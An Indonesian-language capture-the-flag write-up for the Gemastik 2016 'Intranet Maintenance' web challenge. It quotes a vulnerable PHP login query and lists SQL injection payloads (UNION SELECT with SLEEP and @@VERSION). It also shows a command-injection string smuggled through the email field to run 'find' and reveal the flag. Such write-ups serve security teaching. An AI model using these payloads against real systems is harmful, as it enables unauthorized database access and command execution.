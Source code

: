 ```yaml
---
layout: post
title: "Gemastik CTF 2016 : Intranet Maintenance - 125"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: CTF
tags: [gemastik,Web Exploitation]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Intranet Maintenance](/images/intranet-maintenance.png)


### Solusi :

Sesuai dengan clue yang diberikan, kami membuka index.php~ dan menemukan source code file index.php.
setelah kami membaca  source code tersebut kami melihat kemungkinan untuk melakukan sql injection :

`$query = "SELECT * FROM users WHERE email='$email' AND password='$password';";`

kemudian kami mencoba union dengan sleep pada kolom email untuk memastikan query berjalan sesuai keinginan kita.

`' UNION SELECT SLEEP(10) # < NORMAL`

`' UNION SELECT SLEEP(10),1 #   < NORMAL`

`' UNION SELECT SLEEP(10),1,1 # < ERROR`

Ternyata ditemukan 3 kolom union lalu kami mengecek version dari mysqlnya dengan

`' UNION SELECT 1,@@VERSION,1 #`

![Intranet maintenance mysql](/images/intranet-maintenance-mysql.png)

Kemudian kita melihat bahwa input kita masuk ke dalam system() Dan memungkinkan kita untuk melakukan command injection

![Intranet maintenance system](/images/intranet-maintenance-system.png)

Kami kemudian mencoba untuk melakukan injeksi command dengan menggunakan separator `;payload;#`
Kemudian kami sisipkan command pada kolom email

`' UNION SELECT 1,';find;#',1 #`

![Intranet maintenance find](/images/intranet-maintenance-find.png)

Dan ditemukan flag pada `db.php.save`

![Intranet maintenance flag](/images/intranet-maintenance-flag.png)

`GEMASTIK{just_another_admin_who_dont_care_about_s3cur1ty}`


